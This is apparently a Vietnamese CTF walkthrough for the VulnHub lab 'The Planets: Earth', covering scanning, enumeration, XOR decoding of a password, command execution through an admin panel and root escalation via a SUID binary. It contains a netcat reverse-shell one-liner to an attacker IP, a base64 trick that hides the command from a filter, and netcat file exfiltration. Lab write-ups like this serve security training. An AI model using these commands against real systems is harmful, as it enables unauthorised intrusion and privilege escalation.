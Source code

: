 ```yaml
---
title: "The Planets: Earth Writeup - VulnHub"
date: "2023-07-23 17:18:03"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - The Planets
  - hacking
---
```


Download [THE PLANETS: EARTH](https://www.vulnhub.com/entry/the-planets-earth,755/){:target="\_blank"}

**Level**: Easy

## Scanning

Tiến hành scan ip máy chủ mục tiêu

```shell
sudo netdiscover -i eth0 -r 10.0.2.0/24
```

![scan ip](/posts/earth-walkthrough/scan-ip.png)

Target IP là `10.0.2.6`. Tiến hành scan all ports:

```shell
nmap -sC -sV 10.0.2.6 -p- -A -T4
```

Đọc thêm về `nmap` tại [đây](/posts/nmap-network-scanner/)

![scan ports](/posts/earth-walkthrough/scan-ports.png)

Chúng ta có thể thấy có 3 port đang mở: 22, 80 và 443. Ngoài ra, phát hiện thêm có domain name `earth.local` và subdomain `terratest.earth.local`.

Truy cập ip máy chủ web cổng 80 và 443 thấy không có gì đặc biệt. Nhưng từ ssl certificate ta khai được ở trên, có thể thêm 2 entries này vào `/etc/hosts` và truy cập.

```shell
echo "10.0.2.6 earth.local" >> /etc/hosts && echo "10.0.2.6 terratest.earth.local" >> /etc/hosts
```

![add hostname](/posts/earth-walkthrough/add-hostname.png)

![earth.local](/posts/earth-walkthrough/earth.local.png)

![terratest.earth.local](/posts/earth-walkthrough/terratest.earth.local.png)

## Enumeration

Ở trang `earth.local` phía dưới có 4 dòng message đã được encrypted, liệu có gì ẩn ý trong đây. Vẫn chưa tìm thấy đủ thông tin nên ta tiếp tục khai thác, tiến hành enumerate directories ở cả 2 domain.

![terratest enumeration](/posts/earth-walkthrough/terratest-enum.png)

![earth enumeration](/posts/earth-walkthrough/earth-enum.PNG)

Ta tìm được trang admin login và 1 trang robots.txt. Truy cập _https://terratest.earth.local/robots.txt_ xem thu thập được manh mối nào không.

![robots.txt](/posts/earth-walkthrough/robots.txt.png)

Enum các extension cho file này, cuối cùng nhận được response 200 từ `testingnotes.txt`.

![testingnotes](/posts/earth-walkthrough/testingnotes.PNG)

Từ notes trên ta có thể xác định được rằng thuật toán mã hóa message sử dụng XOR, và nội dung file `testdata.txt` có thể là key. Ngoài ra, xác định được username của admin là `terra`.

![testdata](/posts/earth-walkthrough/testdata.PNG)

Ném từng cái encrypted message vào XOR với key (nội dung file `testdata.txt` trên).

![decode message](/posts/earth-walkthrough/decode-message.PNG)

=> Thu được 1 chuỗi lặp lại "`earthclimatechangebad4humans`". Dùng chuỗi này làm password cho user `terra` để đăng nhập trang /admin

![admin](/posts/earth-walkthrough/admin.PNG)

Login admin thành công! Tại đây có thể chạy câu lệnh từ input và click `Run command` sẽ trả về kết quả.

```shell
find / -name 'user_flag.txt' -exec cat {} \;
```

![user_flag.txt](/posts/earth-walkthrough/user_flag.PNG)

User Flag: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]

## RCE

Tạo 1 listener trên port 9005

```shell
nc -nlvp 9005
```

Thử spawn reverse shell `nc 10.0.2.15 9005 -e /bin/bash`.

![remote forbidden](/posts/earth-walkthrough/remote-forbidden.PNG)

Bị forbidden ư? Làm thế nào để bypass đây. Chợt nhớ ra ta có thể bypass kí tự đặc biệt bằng cách encode base64 câu lệnh, decode và đồng thời đưa nó vào shell thực thi thông qua pipeline `|`.

```shell
┌──(kali㉿kali)-[~]
└─$ echo "nc 10.0.2.15 9005 -e /bin/bash" | base64
bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==
```

Spawn Reverse Shell

```shell
echo "bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==" | base64 -d | bash
```

![remote forbidden](/posts/earth-walkthrough/RCE.PNG)

RCE thành công! Nhiệm vụ tiếp theo là leo root và tìm root flag.

## Privilege Escalation

`apache` là user hiện tại, mục tiêu của chúng ta là leo lên quyền cao nhất - root.

Đầu tiên, liệt kê tất cả các file có suid

```shell
find / -perm -u=s 2>/dev/null
```

![find-suid-perm](/posts/earth-walkthrough/find-suid-perm.png)

Check thấy 1 file lạ `reset_root`, nhìn cũng có vẻ hấp dẫn

Phân tích thấy đây là 1 file thực thi và có chức năng reset password cho `root`.

![analyze-reset-root](/posts/earth-walkthrough/analyze-reset-root.PNG)

Chạy thử và bị failed

![run-reset-root](/posts/earth-walkthrough/run-reset-root.PNG)

Để phân tích được rõ ràng hơn, ta sẽ sử dụng `ltrace`.

Nhưng trước tiên phải truyền file `reset_root` về máy local để phân tích. Searching 1 lúc thấy `netcat` có thể làm được điều này. Đọc thêm [tại đây](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/){:target="\_blank"}

Tại máy local

```shell
nc -l -p 1234 -q 1 > reset_root < /dev/null
```

Tại máy gửi

```shell
cat /usr/bin/reset_root | netcat 10.0.2.15 1234
```

Sau khi transfer thành công, thêm quyền thực thi và dùng `ltrace` phân tích ta thu được:

![ltrace-reset-root](/posts/earth-walkthrough/ltrace-reset-root.png)

Hóa ra là máy chủ chỉ kiểm tra các file mình khoanh đỏ ở trên có tồn tại hay không thôi, nếu tồn tại, các câu lệnh phía dưới sẽ được thực thi, và mật khẩu root sẽ được reset về `Earth`.

Giờ quay lại máy chủ mục tiêu và tạo các file đó, sau đó chạy lại file thực thi.

![reset-root-successfully](/posts/earth-walkthrough/reset-root-successfully.PNG)

Quào, `su root` với password là `Earth` và get root flag thoaiii

![root-flag](/posts/earth-walkthrough/root-flag.PNG)

Root Flag: [root_flag_b0da9554d29db2117b02aa8b66ec492e]
